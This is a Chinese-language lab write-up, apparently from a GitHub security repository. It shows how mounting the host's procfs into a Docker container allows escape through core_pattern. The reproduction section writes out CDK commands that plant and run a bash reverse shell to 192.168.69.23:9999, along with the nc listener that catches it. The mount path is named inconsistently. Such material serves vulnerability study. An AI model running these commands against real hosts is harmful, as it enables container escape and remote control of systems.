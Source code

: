 # 挂载宿主机 procfs 系统导致容器逃逸

## 漏洞描述

procfs 是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的 procfs 挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用 root 权限，且没有开启 user namespace 时（Docker 默认情况下不会为容器开启 user namespace）。

一般来说，我们不会将宿主机的 procfs 挂载到容器中。然而，有些业务为了实现某些特殊需要，还是会将该文件系统挂载进来。

procfs 中的 `/proc/sys/kernel/core_pattern` 负责配置进程崩溃时内存转储数据的导出方式。从 [手册](http://man7.org/linux/man-pages/man5/core.5.html) 中我们能获得关于内存转储的详细信息，关键信息如下：

> 从 2.6.19 内核版本开始，Linux 支持在 `/proc/sys/kernel/core_pattern` 中使用新语法。如果该文件中的首个字符是管道符 `|`，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

我们可以利用上述机制，在挂载了宿主机 procfs 的容器内实现逃逸。

参考链接：

- https://docs.docker.com/engine/security/userns-remap/
- http://man7.org/linux/man-pages/man5/core.5.html
- https://github.com/cdk-team/CDK

## 环境搭建

通过以下命令启动一个漏洞环境，下载 [cdk](https://github.com/cdk-team/CDK)，将其拷贝进容器：

```
docker run -v /root/cdk:/cdk -v /proc:/host_proc --rm -it ubuntu bash
```

宿主机的 procfs 在容器内部的挂载路径是 `/host-proc`。

## 漏洞复现

我们利用 cdk 写入反弹 shell 并执行：

```
./cdk run mount-procfs /host_proc 'echo "/bin/bash -i >& /dev/tcp/192.168.69.23/9999 0>&1" > /tmp/rev'
./cdk run mount-procfs /host_proc "chmod +x /tmp/rev"
./cdk run mount-procfs /host_proc "bash /tmp/rev"


# 或者直接执行：
# ./cdk run mount-procfs /host_proc "bash -c '/bin/bash -i >& /dev/tcp/192.168.69.23/9999 0>&1'"
```

![](images/挂载宿主机%20procfs%20系统导致容器逃逸/image-20250520113929303.png)

成功接收：

```
nc -vvl 9999
```

![](images/挂载宿主机%20procfs%20系统导致容器逃逸/image-20250520113952809.png)
